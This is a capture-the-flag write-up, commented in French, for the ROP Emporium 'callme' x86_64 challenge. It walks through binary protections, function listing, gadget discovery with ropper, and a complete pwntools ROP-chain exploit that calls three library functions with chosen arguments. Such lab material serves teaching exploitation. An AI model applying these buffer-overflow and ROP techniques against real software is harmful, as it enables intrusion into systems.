 # 03: Callme 


https://ropemporium.com/binary/callme.zip


## callme 

```
$ ./callme
callme by ROP Emporium
x86_64

Hope you read the instructions...

> 
Thank you!

Exiting
```



##  checksec


```
$ checksec callme
[*] '/home/yolo/yolo/BufferOverflows/ropemporium/03_callme/callme'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
    RUNPATH:  b'.'
```

## functions 

```
$ r2 callme
[0x00400760]> aaaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for objc references
[x] Check for vtables
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.
[x] Finding function preludes
[x] Enable constraint types analysis for variables
[0x00400760]> afl
0x00400760    1 42           entry0
0x004006a8    3 23           sym._init
0x004009b4    1 9            sym._fini
0x004007a0    4 42   -> 37   sym.deregister_tm_clones
0x004007d0    4 58   -> 55   sym.register_tm_clones
0x00400810    3 34   -> 29   entry.fini0
0x00400840    1 7            entry.init0
0x00400898    1 90           sym.pwnme
0x00400700    1 6            sym.imp.memset
0x004006d0    1 6            sym.imp.puts
0x004006e0    1 6            sym.imp.printf
0x00400710    1 6            sym.imp.read
0x004008f2    1 74           sym.usefulFunction
0x004006f0    1 6            sym.imp.callme_three
0x00400740    1 6            sym.imp.callme_two
0x00400720    1 6            sym.imp.callme_one
0x00400750    1 6            sym.imp.exit
0x004009b0    1 2            sym.__libc_csu_fini
0x00400940    4 101          sym.__libc_csu_init
0x00400790    1 2            sym._dl_relocate_static_pie
0x00400847    1 81           main
0x00400730    1 6            sym.imp.setvbuf
[0x00400760]> 
```

## x64 calling convention 

 
+---------+------+------+------+------+------+------+
| syscall | arg0 | arg1 | arg2 | arg3 | arg4 | arg5 |
+---------+------+------+------+------+------+------+
|   %rax  | %rdi | %rsi | %rdx | %r10 | %r8  | %r9  |
+---------+------+------+------+------+------+------+

En x64 les arguments sont passés via les registres.
Il faut un gadget "pop rdi, pop rsi, pop rdx, ret"
Ou des gadgets "pop rdi,ret" "pop rsi, ret" "pop rdx, ret"

Notre payload va être: 'A'*offset_padding   + pop_rdi_rsi_rdx_gadget + arg0, arg1, arg2 + fct1
                                            + pop_rdi_rsi_rdx_gadget + arg0, arg1, arg2 + fct2
                                            + pop_rdi_rsi_rdx_gadget + arg0, arg1, arg2 + fct3



## Trouver le gadget pop rdi, ret

```
$ ropper -f callme | grep rdi
[INFO] Load gadgets for section: LOAD
[LOAD] loading... 100%
[LOAD] removing double gadgets... 100%
0x0000000000400884: add byte ptr [rax], al; add byte ptr [rdi + 0x4009e7], bh; call 0x6d0; mov eax, 0; pop rbp; ret; 
0x0000000000400935: add byte ptr [rax], al; call 0x750; pop rdi; pop rsi; pop rdx; ret; 
0x0000000000400886: add byte ptr [rdi + 0x4009e7], bh; call 0x6d0; mov eax, 0; pop rbp; ret; 
0x0000000000400937: call 0x750; pop rdi; pop rsi; pop rdx; ret; 
0x000000000040093b: lcall [rdi + 0x5e]; pop rdx; ret; 
0x000000000040093c: pop rdi; pop rsi; pop rdx; ret; 
0x00000000004009a3: pop rdi; ret; 
```

pop_rdi_rsi_rdx_gadget = 0x000000000040093c



## exploit python3 + pwn

```
#!/usr/bin/python3 


from pwn import *

elf = context.binary = ELF('callme')
info("%#x callme_one", elf.symbols.callme_one)
callme_one = p64(elf.symbols.callme_one)
callme_two = p64(elf.symbols.callme_two)
callme_three = p64(elf.symbols.callme_three)

io = process(elf.path)

offset_padding = 40
arg1    = p64(0xdeadbeefdeadbeef) 
arg2    = p64(0xcafebabecafebabe)
arg3    = p64(0xd00df00dd00df00d)
pop_rdi_rsi_rdx_gadget = p64(0x000000000040093c)

payload = b'A'*offset_padding + pop_rdi_rsi_rdx_gadget + arg1 + arg2 + arg3 + callme_one \
                              + pop_rdi_rsi_rdx_gadget + arg1 + arg2 + arg3 + callme_two \
                              + pop_rdi_rsi_rdx_gadget + arg1 + arg2 + arg3 + callme_three

io.sendline(payload)
io.interactive()
while 1:
    try:
        print(io.recvline().decode())
    except:
        exit()
```
